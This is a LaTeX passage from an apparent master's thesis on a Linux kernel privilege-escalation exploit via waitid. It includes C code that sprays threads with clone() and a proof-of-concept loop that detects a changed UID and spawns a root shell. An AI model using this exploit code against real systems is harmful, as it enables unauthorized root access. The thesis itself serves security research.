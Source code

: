 \documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
In our case, it is necessary to identify a range of addresses where the structures are saved.
To find it, you can create a maximum number of processes for that system and read the addresses of the structures with the program seen in the \refToSubSection{py_gdb}.

We can run a program that creates processes a few times and see how addresses are changed, remembering to shut down the VM completely every time.
To create enough processes we can use the clone like this:
\begin{lstlisting}
stack=malloc(STACK_SIZE)+STACK_SIZE;
  for(x=0;x<MAX_THREADS;x++){
    stackTop = malloc(STACK_SIZE) + STACK_SIZE;
    if (!stackTop){
      perror("[-] Malloc");
      return -1;
    }
    pid = clone(spray_thread, stackTop, CLONE_VM | CLONE_FS|CLONE_FILES|CLONE_SYSVSEM | SIGCHLD, NULL);
    if (pid == -1){
      perror("\n\nCLONE");
      return -1;
    }
    printf("[0] Process created: %d\r", x);
    }
\end{lstlisting}

\subsection{Proof of concept}
\label{subsect:poc}

PoC is not very complex: just create many threads and start overwriting at an arbitrary address. Our threads will only have to "check” their UID and do "something” in case it changes.

Initially we create processes with the piece of code seen in the \refToSubSection{spraying} which all execute the \texttt{spray_thread} function.
\begin{lstlisting}
struct shared_area{
  int one_win;
};
struct shared_area glob_var;

// Sprayed thread
int spray_thread(void *arg){
  int uid;
  int previous_one = syscall(__NR_getuid);
  // Loop over syscall getUID
  while(1){
    uid = syscall(__NR_getuid);
    printf("UID: %d\n",uid);
    // If returned UID is different from the previous one, then we have hitted a struct cred area
    if (uid != previous_one){
      printf("Previous one %d\n" , previous_one);
      printf("WIN!! with %d", uid);
      // Kill other treads in order to stabilize the system
      glob_var.one_win = 1;
      // Simply spawn a shell
      system("/bin/sh");
    }
    if(glob_var.one_win == 1)
      return 1;
  }
  return 0;
}
\end{lstlisting}
This function checks that the \emph{UID} of the process has not changed. In case it has changed it means that we have overwritten the structure with the system call \texttt{waitid}, then call a shell. In this scenario, this shell should be called with root privileges.
\end{document}
